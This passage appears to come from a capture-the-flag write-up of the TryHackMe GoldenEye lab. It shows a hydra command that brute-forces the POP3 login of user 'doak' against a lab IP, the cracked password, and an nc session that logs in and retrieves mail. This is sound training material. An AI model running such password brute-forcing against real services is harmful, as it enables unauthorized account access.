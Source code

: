 ![alt text](image-2.png)

#### **Cracking doak's password**
```sh

┌──(bc-here㉿BC-Here)-[~/CTF/THM/GoldenEye]
└─$ hydra -l doak -P /usr/share/wordlists/fasttrack.txt 10.10.157.181 -s 55007 pop3 -t 64

[55007][pop3] host: 10.10.157.181   login: `doak`   password: `goat`

```
- Lets try to login to the same page

- That doesn't work for me!

- Lets try to check in the pop3

```sh
┌──(bc-here㉿BC-Here)-[~/CTF/THM/GoldenEye]
└─$ nc 10.10.157.181 55007
+OK GoldenEye POP3 Electronic-Mail System
user doak
+OK
pass goat
+OK Logged in.
list
+OK 1 messages:
1 606
.
retr 1
```